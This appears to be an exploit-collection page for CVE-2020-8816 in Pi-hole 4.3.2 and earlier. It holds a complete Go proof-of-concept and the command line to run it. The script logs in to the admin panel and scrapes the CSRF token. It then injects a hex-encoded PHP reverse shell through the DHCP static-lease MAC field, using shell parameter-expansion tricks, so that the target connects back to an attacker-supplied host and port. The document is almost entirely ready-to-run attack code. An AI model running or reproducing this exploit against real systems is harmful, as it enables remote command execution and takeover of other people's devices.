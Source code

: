 <languages />

影响版本
--------

Pi-hole \<= 4.3.2

POC
---

    go run CVE-2020-8816.go -host $LHOST -p $LPORT -pass admin -u http://target/admin/

    package main


    import (
       "flag"
       "log"
       "strings"
       "github.com/anaskhan96/soup"
       "encoding/hex"
       "github.com/levigross/grequests"
    )

    type Options struct {
       url, password, host, port string

    }


    var HOST string
    var URL string
    var PORT string
    var PASSWD string

    func generate_shell() string{
       payload := "php -r '$sock=fsockopen(\"HOST\", PORT);exec(\"/bin/sh -i <&3 >&3 2>&3\");'"
       payload = strings.Replace(payload, "HOST", HOST, 1)
       payload = strings.Replace(payload, "PORT", PORT, 1)
       return hex.EncodeToString([]byte(payload))
    }

    func extractFlags() *Options {
       urlPtr := flag.String("u", "http://10.0.0.1/admin/", "Set the Url of the admin panel")
       passPtr := flag.String("pass", "admin", "Admin Password")
       hostPtr := flag.String("host", "10.0.0.1", "Set the host for the reverse shell")
       portPtr := flag.String("p", "1337", "Set Port for the reverse shell")
       flag.Parse()

       return &Options{*urlPtr, *passPtr, *hostPtr,*portPtr}
    }

    func doLogin(ses *grequests.Session) *grequests.Session{
       log.Println("Logging In...")
       resp, err := ses.Post(URL+"index.php",&grequests.RequestOptions{Data: map[string]string{"pw": PASSWD}})
       if err != nil {
           log.Fatal("Error logging-in: ", err)
       }

       if resp.Ok != true {
           log.Println("Request for log-in did not return OK")
       }
       log.Println("Logged In!")
       return ses
    }

    func getToken(ses *grequests.Session) string{
       resp, err:= ses.Get(URL+"index.php",nil)
           if err != nil {
           log.Fatal("Error getting token: ", err)
       }

       if resp.Ok != true {
           log.Println("Request for getting token did not return OK")
       }
       html := soup.HTMLParse(resp.String())
       token := html.Find("div","id","token").Text()
       return token
    }

    func Exploit(ses *grequests.Session, token string, payload string) {
       full_payload := "aaaaaaaaaaaa&&W=${PATH#/???/}&&P=${W%%?????:*}&&X=${PATH#/???/??}&&H=${X%%???:*}&&Z=${PATH#*:/??}&&R=${Z%%/*}&&$P$H$P$IFS-$R$IFS'EXEC(HEX2BIN(\"" + payload + "\"));'&&"
       resp,err := ses.Post(URL + "settings.php", &grequests.RequestOptions{Data: map[string]string{
           "AddMAC":full_payload,
           "field":"DHCP",
           "AddIP":"10.10.10.10",
           "AddHostname":"10.10.10.10",
           "addstatic":"",
           "token":token}})
               if err != nil {
           log.Fatal("Error sending payload: ", err)
       }

       if resp.Ok != true {
           log.Println("Request for sending payload did not return OK")
       }
    }


    func main(){
       options := extractFlags()
       HOST = options.host
       URL = options.url
       PORT = options.port
       PASSWD = options.password
       session := grequests.NewSession(nil)
       doLogin(session)
       log.Println("Getting Token...")
       token := getToken(session)
       log.Println("Token:",token)
       log.Println("Generating payload...")
       payload := generate_shell()
       log.Println("Payload generated:",payload)
       log.Println("Sending exploit...")
       Exploit(session, token, payload)
       log.Println("Exploit executed, check your session")
    }
